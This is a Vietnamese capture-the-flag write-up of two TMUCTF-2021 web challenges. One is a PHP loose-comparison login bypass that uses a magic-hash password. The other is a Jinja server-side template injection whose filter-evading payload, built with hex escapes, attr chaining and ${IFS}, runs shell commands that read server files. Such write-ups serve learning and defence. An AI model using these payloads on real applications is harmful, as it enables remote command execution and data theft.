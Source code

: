 # TMUCTF-2021 (Web challenges)
## Login
Ban đầu mình thử với một vài payload sqli nhưng không phải.

Thử check file robots.txt chúng ta sẽ có được source code:
```
if (isset($_GET["password"])) {
    if (hash("md5", $_GET["password"]) == $_GET["password"]) {
        echo "<h1>Here is the flag:</h1>" . $flag;
    } else {
        echo "Try harder!";
    }
}
```

Bài này thực hiện so sánh password do chúng ta nhập với md5 hash của nó. Nếu như kết quả giống nhau thì sẽ echo ra flag.

Lợi dụng Loose comparison trong PHP để giải quyết vấn đề này.

password: 0e215962017

### Flag: TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}

## Injection
### Dạng bài: server-side templete injection 

Điều khó khăn nhất trong bài này chính là đề bài không cung cấp blacklist cho chúng ta nên chúng ta không thể soạn một payload hoàn chỉnh ngay được

Sau một vài lần thử thì mình có thể biết được: các kí tự: '_', request, '.','[' đều bị filter:

* `__` có thể được thay thế bằng `\x5f\x5f`

* `.` và `[` có thể sử dụng `|attr để thay thế`
 
 Hiển thị tất cả class:
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
 ```
 Đến đây có thể tìm được ví trí của class mình cần, mình tìm được vị trí của class `os._wrap_close` là 132
 
 Get class `os._wrap_close`:
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)
 ```
 
 Cứ lần lượt như vậy mình có được payload:
 
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
 ```
 Nhưng đây chưa phải là payload cuối cùng mình có thể sử dụng vì os, popen và khoảng trắng đều bị filter:
 
 * Thay `'os'` bằng `'\x6f\x73'`
 
 * Thay `'popen'` bằng `'pop''en'`
 
 * Thay khoảng trằng băng ${IFS}
 
 Finally, chúng ta đã có thể excute được command.
 
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('\x6f\x73')|attr('po''pen')('cat${IFS}/opt/tmuctf/*')|attr('read')()}}
 ```
 
 Trong bài này việc tìm flag cũng có đôi chút khó khăn, flag không nằm trong những file 'flag.txt' hay nằm sẵn ở dạng TMUCTF{}.
 
 Mình mất khá nhiều thời gian để tìm được path chứa flag. Cuối cùng mình thử cat file help thì được hint là flag là file cuối cùng được upload trong /opt/tmuctf/
 
 `ls${IFS}-t` để sắp xếp file theo thời gian
 
 Sau đó cat file và base64-decode nội dung sẽ được flag:
 
 ### Flag: TMUCTF{0h!_y0u_byp4553d_4ll_my_bl4ckl157!!!__1_5h0uld_h4v3_b33n_m0r3_c4r3ful}
 
 



